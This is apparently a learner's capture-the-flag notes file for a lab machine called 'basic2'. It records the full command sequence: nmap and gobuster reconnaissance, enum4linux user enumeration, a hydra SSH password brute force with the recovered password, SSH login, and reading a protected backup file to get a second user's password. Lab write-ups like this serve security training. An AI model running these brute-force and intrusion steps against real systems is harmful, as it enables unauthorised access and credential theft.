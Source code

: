 IP		
	10.10.141.243

commands
	nmap -A -T4 -Pn -oN initial_scan.txt 10.10.141.243
		to search for open ports		

	gobuster dir -u http://10.10.141.243 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
		looking for internal assets		->		/development

	enum4linux -a 10.10.141.243
		search for users in server files and logs		->		jan, kay

	hydra -t 4 -l jan -P ~/Desktop/rockyou.txt ssh://10.10.141.243
		brute-force the passwd for user named 'jan'		->		armando

	ssh jan@10.10.141.243
		use the 'armando' passsword to login into machine as user 'jan'

	--> after logging in, found private key for user 'kay' in ' /home/kay/.ssh/is_rsa '
		couldn't extract private key out of the machine to local system :(

		But then i say a comment under a write-up.
		it said " 'pass.bak' is visible to 'vi' but permittion denied to 'cat' "
		so thats it, it tried and vollah! final password found
		
	vi pass.bak
			heresareallystrongpasswordthatfollowsthepasswordpolicy$$


users
	jan
	kay

open ports 
	22		ssh
	80		http
	139	    samba smbd
	445		samba smbd	  4.3.11-Ubuntu
	8009	ajp13?

OS 
	windows 6.1

comp name 
	basic2
